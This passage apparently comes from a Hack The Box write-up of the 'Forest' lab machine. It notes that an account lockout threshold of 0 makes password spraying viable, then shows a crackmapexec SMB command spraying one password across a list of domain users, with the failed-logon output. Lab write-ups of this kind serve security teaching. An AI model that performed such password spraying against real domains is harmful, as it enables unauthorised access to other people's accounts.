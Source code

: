 ```none
dSCorePropagationData: 20200909161747.0Z
dSCorePropagationData: 20200909161740.0Z
dSCorePropagationData: 16010101000000.0Z
```

Notice how `lockoutThreshold` is 0. This means that password spraying attacks against active directory users are viable since I can have an unlimited amount of failed password attempts for any user without ever locking them out.

At this point, I figured I might as well try logging in as each user. On Windows, the most low-privileged way to login as a user is via SMB:

```none
$ crackmapexec smb 10.10.10.161 -u users.txt -p s3rvice
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:HTB) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] HTB\Administrator:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\Guest:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\krbtgt:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\DefaultAccount:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\$331000-VK4ADACQNUCA:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_2c8eef0a09b545acb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_ca8c2ed5bdab4dc9b:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_75a538d3025e4db9a:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_681f53d4942840e18:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_1b41c9286325456bb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_9b69f1b9d2cc45549:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_7c96b981967141ebb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_c75ee099d0a64c91b:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\SM_1ffab36a2f5f479cb:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxc3d7722:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxfc9daad:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxc0a90c9:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox670628e:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox968e74d:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox6ded678:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox83d6781:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxfd87238:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailboxb01ac64:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox7108a4e:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\HealthMailbox0659cc1:s3rvice STATUS_LOGON_FAILURE
```